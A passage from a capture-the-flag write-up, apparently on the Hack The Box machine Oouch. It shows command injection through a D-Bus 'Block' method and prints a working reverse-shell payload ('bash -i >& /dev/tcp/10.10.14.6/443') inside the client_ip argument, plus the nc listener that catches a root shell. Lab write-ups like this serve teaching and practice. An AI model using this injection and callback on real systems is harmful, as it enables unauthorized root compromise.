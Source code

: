 With `tcpdump` listening, I’ll submit it:

```

>>> response = block_iface.Block(client_ip)
>>> response
dbus.String('Carried out :D')
>>> bus.close()

```

As soon as I sent the first command above, `tcpdump` got a hit:

```

root@kali# tcpdump -i tun0 icmp                                       
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
11:24:08.919117 IP 10.10.10.177 > 10.10.14.6: ICMP echo request, id 4646, seq 1, length 64
11:24:08.919140 IP 10.10.14.6 > 10.10.10.177: ICMP echo reply, id 4646, seq 1, length 64  

```

It also worked with the command in `$()`. Now I’ll try a real payload:

```

>>> bus = dbus.SystemBus()                                                      
>>> block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')        
>>> block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
>>> client_ip = '; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" #'
>>> response = block_iface.Block(client_ip)                                     
>>> bus.close()

```

On submitting, I get a root shell on Oouch:

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.177] 51146
bash: cannot set terminal process group (2419): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root# id
uid=0(root) gid=0(root) groups=0(root)

```

And I can grab `root.txt`:

```

root@oouch:/root# cat root.txt
b8371f67************************

```
